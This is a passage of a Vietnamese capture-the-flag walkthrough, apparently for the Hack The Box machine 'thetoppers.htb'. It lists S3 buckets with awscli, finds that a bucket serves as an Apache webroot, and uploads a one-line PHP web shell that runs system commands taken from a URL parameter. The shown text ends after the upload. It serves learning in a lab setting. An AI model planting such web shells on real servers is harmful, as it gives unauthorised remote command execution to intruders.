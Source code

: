 Chúng ta có thể liệt kê tất cả các bucket S3 được máy chủ lưu trữ bằng cách sử dụng lệnh `ls`.

```
 aws --endpoint=http://s3.thetoppers.htb s3 ls
```

![alt text](image-7.png)

Có thể sử dụng lệnh `ls` để liệt kê các object và tiền tố chung trong nhóm được chỉ định.

```
 aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```

![alt text](image-8.png)

Thấy các tệp `index.php`, `.htaccess` và một thư mục có tên là `images` trong bucket đã chỉ định. Có vẻ như đây là webroot của trang web đang chạy trên `port 80`. Vì vậy, máy chủ Apache đang sử dụng bucket S3 này làm nơi lưu trữ.

`awscli` có một tính năng khác cho phép sao chép các file vào bucket từ xa. Đã biết rằng trang web đang sử dụng PHP. Do đó, có thể thử tải tệp shell PHP lên bucket S3 và vì nó đã được tải lên thư mục webroot nên có thể truy cập trang web này trong trình duyệt, sau đó sẽ thực thi tệp này và sẽ thực thi mã từ xa.

Có thể sử dụng dòng lệnh PHP sau đây sử dụng hàm `system()` lấy tham số URL `cmd` làm đầu vào và thực thi nó như một lệnh hệ thống.

```
 <?php system($_GET["cmd"]); ?>
```

Hãy tạo một tệp PHP để tải lên.

```
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Sau đó có thể tải shell PHP này lên bucket S3 `thetoppers.htb` bằng lệnh sau.

```
 aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```

![alt text](image-9.png)
